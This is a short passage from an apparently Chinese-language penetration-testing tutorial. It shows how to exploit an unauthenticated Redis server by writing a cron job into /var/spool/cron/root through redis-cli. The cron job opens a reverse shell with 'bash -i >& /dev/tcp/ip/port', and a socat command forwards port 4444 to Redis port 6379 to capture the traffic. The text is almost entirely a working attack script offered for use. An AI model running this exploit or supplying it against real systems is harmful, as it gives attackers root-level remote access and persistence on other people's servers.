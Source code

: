 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210111224322.png-water_print](assets/1699411601-635574159874c1f612acbaa500c0ba61.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210111224322.png-water_print")

**通过 socat 抓流量**

脚本：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/ip/port 0 >&1\n\n"\|redis-cli -h $1 -p $2 -x set 1<br>redis-cli -h $1 -p $2 config set dir /var/spool/cron<br>redis-cli -h $1 -p $2 config set dbfilename root<br>redis-cli -h $1 -p $2 quit<br>``` |

执行：./shell.sh 127.0.0.1 4444

**流量转发**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>socat -v tcp-listen:4444,fork tcp-connect:IP:6379<br>``` |
